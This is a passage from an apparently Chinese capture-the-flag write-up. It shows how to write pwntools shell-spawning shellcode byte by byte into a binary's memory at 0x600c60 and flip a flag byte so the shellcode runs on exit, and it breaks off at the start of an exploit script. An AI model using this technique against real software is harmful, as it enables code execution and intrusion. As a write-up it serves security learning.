 [![](assets/1706959474-e7336453ca8156f3ae78e19aa0692429.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151439-67188710-bb51-1.png)  
修改后：

[![](assets/1706959474-28923bb02e50feb14eac681065b0d3ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151448-6cea491c-bb51-1.png)  
然后一位一位写 shellcode

```plain
shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i]))
```

然后在 0x600c60 处逐字节写入 shellcode

[![](assets/1706959474-b984996381064d0f8255167e651749cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151505-76fe0100-bb51-1.png)  
再去修改 flag 为正，然后退出程序就可以执行 shellcode 了

```plain
write_value(b"0x600bcf", b"0xff")
```

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
```